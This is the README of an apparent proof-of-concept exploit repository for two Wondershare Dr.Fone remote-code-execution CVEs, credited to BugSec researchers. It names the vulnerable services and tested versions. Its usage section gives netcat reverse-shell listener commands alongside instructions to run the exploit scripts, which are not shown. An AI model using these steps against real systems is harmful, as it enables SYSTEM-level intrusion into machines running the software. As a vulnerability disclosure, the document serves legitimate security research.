 # WonderShell
# CVE - 2021-44595
# CVE - 2021-44596

## Discovered by
Netanel Cohen and Tomer Peled a Security Researchers from BugSec.

## Description
POC example to exploit [Wondershare Dr.Fone](https://drfone.wondershare.com/) .\
Dr.Fone is a phone toolkit develop by wondershare , and vulnerable to RCE.\
Only with network access we manage to execute remote code as SYSTEM user.

Vulnerable services:
>InstallAssistService.exe\
>ElevationService.exe

Tested on versions : 12.0.7 , 11.4

## Usage
Change ip and port and execute.

```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistServiceRCE.py
```


## Publications
https://medium.com/@tomerp_77017/wondershell-a82372914f26




